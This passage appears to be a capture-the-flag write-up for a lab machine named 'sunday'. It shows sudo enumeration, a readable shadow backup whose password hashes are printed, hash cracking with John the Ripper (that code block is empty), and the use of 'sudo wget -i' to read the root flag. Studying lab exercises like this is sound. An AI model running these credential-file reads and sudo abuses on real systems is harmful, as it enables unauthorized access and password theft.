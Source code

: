 ```
sunny@sunday:/home$ sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
```

So I could run the `/root/troll` command as root. This is obviously a custom command so I decided to run it to see what it’s doing .

```
sunny@sunday:/home$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

It seemed to be a script that prints the id of the user running it. Since I ran it with the ‘sudo’ command, it printed the id of root. I didn’t have write access to the script, so I wasn’t able to escalate my privileges using it.

After a bit of digging, I found a backup file in the following directory.

```
sammy@sunday:~$ find / -name  backup 2>/dev/null
/backup
```

It contained two files `agen22.backup` and `shadow.backup`. The former, I didn’t have access to, however, I could view the latter.

```
sammy@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

It was a backup of shadow file. Now, since I already knew sunny's password, I tried to crack Sammy's password. For this, I copied Sammy's hash and saved it in a file and then use John the ripper to crack the hash.

```
```

Now that I got sammy's password, I pivoted to sammy's account and enumerated it.

I ran `sudo -l` on sammy's account and found out that I was  able to run `/usr/bin/wget` as root.

If you’re familiar with the “-i” flag in wget, you’ll know that we can use it to output the content of files. Therefore, we can run the following command to get the root flag.

```
sammy@sunday:/backup$ sudo wget -i /root/root.txt
--2023-03-04 10:07:55--  http://[REDACTED]/
Resolving [REDACTED] ([REDACTED])... failed: temporary name resolution failure.
wget: unable to resolve host address ‘[REDACTED]’
```

And I was able to grab the root flag and complete the challenge.

